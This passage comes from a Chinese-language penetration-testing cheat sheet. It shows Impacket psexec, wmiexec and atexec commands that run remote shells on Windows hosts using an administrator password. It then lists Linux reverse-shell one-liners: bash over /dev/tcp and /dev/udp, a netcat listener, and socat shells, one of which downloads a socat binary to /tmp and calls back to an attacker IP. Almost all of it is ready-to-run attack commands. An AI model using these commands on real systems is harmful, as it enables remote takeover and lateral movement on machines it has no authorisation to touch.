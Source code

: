         Psexec.py 允许你在远程 Windows 系统上执行进程，复制文件，并返回处理输出结果。此外，它还允许你直接使用完整的交互式控制台执行远程 shell 命令（不需要安装任何客户端软件）。
        ```
        ./psexec.py test/Administrator:Abcd1234@192.168.1.100
        ```

    - **Wmiexec.py**

        它会生成一个使用 Windows Management Instrumentation 的半交互式 shell，并以管理员身份运行。你不需要在目标服务器
        ```
        ./wmiexec.py test/Administrator:Abcd1234@192.168.1.100
        ```

    - **Atexec.py**

        通过 Task Scheduler 服务在目标系统上执行命令，并返回输出结果。
        ```
        ./atexec.py test/Administrator:Abcd1234@192.168.1.100 whoami
        ```

---

## Linux
### Linux下回弹shell

**工具**
- [sameera-madushan/Print-My-Shell](https://github.com/sameera-madushan/Print-My-Shell) - 自动化生成各种类型的反向 Shell

---

部分内容来自 部分内容来自项目 <sup>[[swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional)]</sup>

**bash**
- tcp

    ```bash
    bash -i >& /dev/tcp/10.0.0.1/4242 0>&1

    0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
    ```

- udp

    ```bash
    Victim:
    sh -i >& /dev/udp/10.0.0.1/4242 0>&1

    Listener:
    nc -u -lvp 4242
    ```

**Socat**
```bash
user@attack$ socat file:`tty`,raw,echo=0 TCP-L:4242
user@victim$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```
```bash
user@victim$ wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```

